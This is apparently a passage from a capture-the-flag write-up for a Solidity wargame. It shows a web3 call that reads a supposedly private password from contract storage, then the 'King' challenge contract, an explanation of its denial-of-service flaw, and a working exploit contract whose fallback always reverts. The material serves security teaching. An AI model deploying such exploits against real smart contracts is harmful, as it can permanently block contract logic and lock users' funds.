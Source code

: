 ```js
password = await web3.eth.getStorageAt(instance, 1)
```

---

# <a name="king"></a> 9. King
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

Anyone can become the king in the challenge contract if they send more ether than the present king's ether. To complete this challenge, we have to block anyone else from becoming the king, even if they send large amount of ether. We can do that by using the "fallback" function. remember that, when ether is sent with empty data or false data, one of the fallback function is called and if the fallback function "reverts" everytime, then it won't be possible to transfer ether using "transfer" function. The challenge contract's receive function transfer's the previous king's ether before updating the king to the new one. So, if the previous king's ether transfer fails everytime, then no one can become the king.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract KingExploit {
    constructor(address payable kingInstance) public payable {
        require(msg.value >= 1 ether);
        kingInstance.call{value: 1 ether}("");
    }
    
    fallback() external payable {
        revert();
    }
}
```

---